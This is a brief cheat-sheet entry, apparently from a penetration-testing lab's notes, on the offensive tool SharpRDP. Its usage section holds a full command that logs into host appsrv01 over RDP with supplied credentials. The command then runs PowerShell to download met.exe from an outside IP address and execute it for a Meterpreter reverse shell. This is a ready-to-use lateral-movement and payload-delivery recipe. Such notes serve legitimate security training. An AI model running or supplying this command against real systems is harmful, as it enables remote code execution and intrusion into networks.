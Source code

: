 # Name
SharpRDP

## Usage
Headless RDP session
```
# Obtain Meterpreter Reverse shell:
sharprdp.exe computername=appsrv01 command="powershell (New-Object System.Net.WebClient).DownloadFile('http://192.168.119.120/met.exe', 'C:\Windows\Tasks\met.exe'); C:\Windows\Tasks\met.exe" username=corp1\dave password=lab
```

## Source
https://github.com/0xthirteen/SharpRDP

